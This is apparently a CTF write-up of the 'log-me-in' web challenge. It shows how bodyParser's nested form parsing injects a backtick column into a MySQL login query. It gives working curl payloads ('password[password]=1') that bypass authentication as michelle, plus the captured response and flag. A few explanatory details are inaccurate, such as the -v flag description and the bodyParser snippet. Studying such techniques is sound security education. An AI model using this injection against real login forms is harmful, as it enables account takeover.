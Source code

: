**Knowledge**:
- MySQL SELECT command (for payload construction)
- Node JS (for prototype testing)

**Task**: We are given a login form and webserver's logic. Our goal is to login as michelle.

**Investigation**: 
- Test with common SQL injections. Failed
- Test with standard user/pass = admin/admin. Passed

Upon navigating through the `/flag` directory, we are informed that only "Michelle's account" would see the flag. Since common SQL injections do not work, we need to understand how server parses the login form. Base on the source `app.js`, the express server uses `bodyParser` module to process the form. With "extended" property is set to true, the form will be parsed as follows:
```javascript
var bP = require("bodyParser")
var ret = bP.parse("password[age]=13")
console.log(ret) # The result is {password:{'age'='13'}}
```
We now have some ideas of what should be included in the form. Let's setup the local server (web, database) and observe how the webserver parses our payload.

```bash
curl -v http://localhost:3000/login -d 'username=michelle&password[age]=13'
#-v tells the target webserver
#-d tells what data we will post to the server
```
We are presented with the following error:
```
code: 'ER_BAD_FIELD_ERROR',
errno: 1054,
sqlMessage: "Unknown column 'age' in 'where clause'",
sqlState: '42S22',
index: 0,
sql: "Select * from users where username = 'michelle' and password = `age` = '13'"
```

The error is informative. It tells us how the final sql statement looks like, and what error we should fix to make our payload works. Since backtick is allowed, `age` is evaluated as a column. We were asking for a user whose username is michelle and his password is equal to his age, which does not exist in the database. To fix this, we can change the payload so that the statement becomes:

```ruby
Select * from users where username = 'michelle' and password = `password` = '13'
```

Since the `password` column is known, we fixed the error. However, we need to handle the '13'. Leaving it empty will cause syntax error, while filling it with random number will not give us the row with michelle's account. MySQL evaluates the whole statement from left to right, which means that password = `password` would be compared first, then the output of the first comparison is evaluated against '13'. Since the first equality is evaluated to 1 (true), the second equality is evaluated to 0 (false), as '1'!='13'. To solve this, we set 13 to 1. Our expected sql statement is then:

```ruby
Select * from users where username = 'michelle' and password = `password` = '1'
```
The above sql statement can be generated from the following payload:

curl -v http://localhost:3000/login -d 'username=michelle&password[password]=1' 

Replacing the local address with log-me-in website, we can obtain michelle's session:

```bash
#Request
curl -v https://log-me-in.web.ctfcompetition.com/login -d'username=michelle&password[password]='1''

#Response
 POST /login HTTP/2
> Host: log-me-in.web.ctfcompetition.com
> user-agent: curl/7.68.0
> accept: */*
> content-length: 38
> content-type: application/x-www-form-urlencoded
> 
* We are completely uploaded and fine
* Connection state changed (MAX_CONCURRENT_STREAMS == 100)!
< HTTP/2 302 
< content-type: text/plain; charset=utf-8
< x-powered-by: Express
< location: /me
< vary: Accept
< set-cookie: session=eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9; path=/; httponly
< set-cookie: session.sig=bm5eHrmgRjBNmerS49mKNDV_tP4; path=/; httponly
< x-cloud-trace-context: 0454fe252df470a913b976399f989e68
< date: Sat, 29 Aug 2020 07:55:09 GMT
< server: Google Frontend
< content-length: 25
< 
* Connection #0 to host log-me-in.web.ctfcompetition.com left intact
Found. Redirecting to /me.
```

Decoding the cookie-session with base64, we obtain the flag:

{"username":"michelle","flag":"CTF{a-premium-effort-deserves-a-premium-flag}"}
